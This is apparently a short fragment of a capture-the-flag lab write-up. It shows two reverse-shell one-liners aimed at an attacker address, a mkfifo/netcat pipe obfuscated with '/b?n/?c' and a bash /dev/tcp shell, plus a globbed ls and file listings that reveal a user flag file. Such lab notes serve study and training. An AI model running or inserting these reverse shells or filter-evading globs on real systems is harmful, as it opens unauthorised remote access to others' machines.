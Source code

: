 ```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| /b?n/?c 10.10.14.18 443 >/tmp/f
失败

/bin/bash -i >& /dev/tcp/10.10.14.18/443 0>&1

```
---
/bin/?s /

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/1.PNG)

```
bin
boot
dev
etc
home
...
```
---


```
ls -al
-rw------- 1 shelby   shelby       33 Jul  4 01:22 /home/shelby/user.txt
-rw-r--r-- 1 www-data www-data   4089 Nov 18 06:53 /usr/local/centreon/filesGeneration/engine/1/centengine.DEBUG

```
---
